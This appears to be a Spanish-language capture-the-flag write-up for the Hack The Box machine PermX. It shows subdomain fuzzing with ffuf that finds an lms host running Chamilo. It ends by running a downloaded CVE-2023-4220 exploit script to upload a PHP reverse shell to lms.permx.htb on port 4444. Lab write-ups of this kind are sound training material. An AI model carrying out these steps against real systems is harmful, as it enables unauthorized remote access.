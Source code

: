 ```bash
Nmap done: 1 IP address (1 host up) scanned in 8.43 seconds
```

3. IIS

Depués de realizar fuzzing para enumerar directorios y no encontrar nada, he hecho fuzzing a los subdirectorios:

```bash
┌──(mili㉿kali)-[~/Desktop/HTB/PermX]
└─$ ffuf -u http://permx.htb -H "HOST:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 1159ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 3341ms]
```

Y encontramos lms y www, habrá que añadirlo a /etc/hosts.

![[Pasted image 20241002001709.png]]
Nos aparece la siguiente página con un panel de login.

Investigando un poco, podemos encontrar una vulnerabilidad de chamilo:

![[Pasted image 20241002002310.png]]

Podemos descargar el exploit que es muy sencillo de utilizar y vemos que el resultado es instantáneo:

```bash
┌──(mili㉿kali)-[~/Desktop/HTB/PermX]
└─$ ./CVE-2023-4220.sh 
-e 
All options -f, -h, and -p are required.
-e 
Usage: ./CVE-2023-4220.sh -f reverse_file -h host_link -p port_in_the_reverse_file
-e 
Options:
  -f    Path to the reverse file
  -h    Host link where the file will be uploaded
  -p    Port for the reverse shell
                                                                                                                                                                                             
┌──(mili㉿kali)-[~/Desktop/HTB/PermX]
└─$ ./CVE-2023-4220.sh -f revshell.php -h http://lms.permx.htb -p 4444
```